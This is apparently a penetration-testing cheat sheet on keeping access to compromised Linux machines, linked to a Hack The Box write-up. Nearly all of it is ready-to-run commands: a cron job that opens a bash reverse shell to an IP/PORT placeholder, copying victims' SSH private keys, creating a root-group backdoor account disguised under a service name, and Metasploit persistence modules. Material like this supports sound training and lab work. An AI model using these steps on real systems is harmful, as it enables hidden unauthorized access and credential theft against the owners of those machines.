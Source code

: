 # Linux - Persistence

## Manual Persistence

### Cronjob persistence

```bash
# check cron configuration
cat /etc/cron*

# create revshell script file
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'" > cron_shell

# add script in crontab file
crontab -i cron_shell
# check the crontab configuration
crontab -l

# run netcat listener
nc -nvlp PORT
```

### Persistence Via SSH Keys

```bash
# search .ssh directory in the system
# hope that .ssh dir contain id_rsa file

# transfer files from a target system to our local system via SSH (shell in attack machine)
scp USER@IP:/.ssh/id_rsa .

# change rsa file permission (600)
chmod 600 id_rsa
# login via ssh with private key
ssh -i id_rsa USER@IP
```

#### HTB Machine example



[#percistance-with-ssh-root-connection](../../../../ctf/hack-the-box/linux-machines/write-up.md#percistance-with-ssh-root-connection "mention")

### Add new user

```bash
# When we are in the target with root user, 
# for establish the access we can create a new account 
# (to keep hide the new profile we can rename it like a service name ex. ftp, sshd)
useradd -m NEW_USER -s /bin/bash
passwd NEW_USER

# add the new user in the root group
usermod -aG root NEW_USER
```

## Automatic Persistence

```bash
# cronjob persistence module
use exploit/linux/local/cron_persistence
show options
set SESSION N
exploit
set LPORT PORT
set LHOST IP
exploit
```

```bash
# revshell persistence module
use exploit/linux/local/service_persistence
show options
set SESSION N
set payload cmd/unix/reverse_python
set LHOST IP
set LPORT PORT
exploit
```

```bash
# ssh persistence module
use post/linux/manage/sshkey_persistence
show options
set CREATESSHFOLDER true
set SESSION N
exploit

# copy content of rsa_file and use file for take access
cat RSA_FILE
exit
vim ssh_key
chmod 0400 ssh_key
ssh -i ssh_key root@$IP
```

